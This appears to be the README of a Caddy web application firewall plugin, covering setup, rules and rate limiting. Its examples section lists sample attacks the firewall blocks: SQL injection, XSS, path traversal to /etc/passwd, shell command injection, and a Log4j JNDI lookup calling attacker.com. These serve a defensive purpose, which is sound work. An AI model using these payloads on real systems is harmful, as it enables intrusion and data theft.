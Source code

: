 # Caddy WAF Middleware

A Web Application Firewall (WAF) middleware for Caddy server with rule-based filtering, blacklisting, and rate limiting.

## Features
- Rule-based request filtering with regex patterns
- IP and DNS blacklisting
- Rate limiting per IP address
- Anomaly scoring system
- Request inspection (URL, args, body, headers)
- Protection against common attacks (SQL injection, XSS, RCE, etc.)
- Detailed logging support

## Installation

```bash
xcaddy build --with github.com/fabriziosalmi/caddy-waf
```

## Configuration

Basic Caddyfile setup:

```caddyfile
localhost {
    route {
        waf {
            rule_file rules.json
            ip_blacklist_file blacklist.txt
            dns_blacklist_file domains.txt
            rate_limit 100 1m  # 100 requests per minute
            log_all
            anomaly_threshold 5
        }
        respond "Hello, world!"
    }
}
```

### Protected Attacks Examples

The WAF protects against various attacks. Here are examples that would be blocked:

#### SQL Injection
```http
# Blocked: Basic SELECT injection
GET /?id=1 SELECT * FROM users

# Blocked: UNION-based injection
GET /?id=1 UNION SELECT username,password FROM users

# Blocked: Time-based injection
GET /?id=1' AND SLEEP(5)--
```

#### Cross-Site Scripting (XSS)
```http
# Blocked: Basic script injection
GET /?input=<script>alert(1)</script>

# Blocked: Event handler injection
GET /?input=<img onerror=alert(1) src=x>

# Blocked: SVG-based XSS
GET /?input=<svg/onload=alert(1)>
```

#### Path Traversal
```http
# Blocked: Directory traversal
GET /../../etc/passwd

# Blocked: Encoded traversal
GET /%2e%2e%2f/etc/passwd

# Blocked: Double-encoded traversal
GET /%252e%252e%252f/etc/passwd
```

#### Remote Code Execution
```http
# Blocked: Command injection
GET /?cmd=;ls;

# Blocked: Shell command
GET /?input=`cat /etc/passwd`

# Blocked: System command execution
GET /?input=$(ls -la)
```

#### Log4j Attacks
```http
# Blocked: JNDI lookup
GET /?x=${jndi:ldap://attacker.com/a}

# Blocked: Nested expression
GET /?x=${${::-j}${::-n}${::-d}${::-i}}
```

#### Protocol Attacks
```http
# Blocked: Git repository access
GET /.git/config

# Blocked: Environment file access
GET /.env

# Blocked: Apache configuration
GET /.htaccess
```

#### Scanner Detection
```http
# Blocked: Common scanner User-Agents
User-Agent: sqlmap/1.4.7
User-Agent: nikto/2.1.6
User-Agent: nmap/7.80
```

### Configuration Options

- `rule_file`: JSON file containing WAF rules
- `ip_blacklist_file`: File with blocked IPs/CIDR ranges
- `dns_blacklist_file`: File with blocked domains
- `rate_limit <requests> <window>`: Rate limiting (e.g., "100 1m" for 100 requests per minute)
- `log_all`: Enable detailed logging
- `anomaly_threshold`: Cumulative score threshold (default: 5)

### Rules Format (rules.json)

```json
[
    {
        "id": "sql_injection",
        "phase": 2,
        "pattern": "(?i)select.*from",
        "targets": ["ARGS", "BODY"],
        "severity": "HIGH",
        "action": "block",
        "score": 3
    }
]
```

### Blacklist Formats
- `ip_blacklist.txt`: One IP/CIDR per line
- `dns_blacklist.txt`: One domain per line

## Rate Limiting

Rate limiting is configured with two parameters:
- Number of requests allowed
- Time window

Example configurations:
```caddyfile
# 100 requests per minute
rate_limit 100 1m

# 10 requests per second
rate_limit 10 1s

# 1000 requests per hour
rate_limit 1000 1h
```

Exceeding the rate limit returns HTTP 429 (Too Many Requests).

## Testing

Test rate limiting:
```bash
# Test 5 requests per 5 seconds limit
for i in {1..6}; do curl -i http://localhost:8080/; done

# Load test
ab -n 100 -c 10 http://localhost:8080/
```

## License

AGPLv3
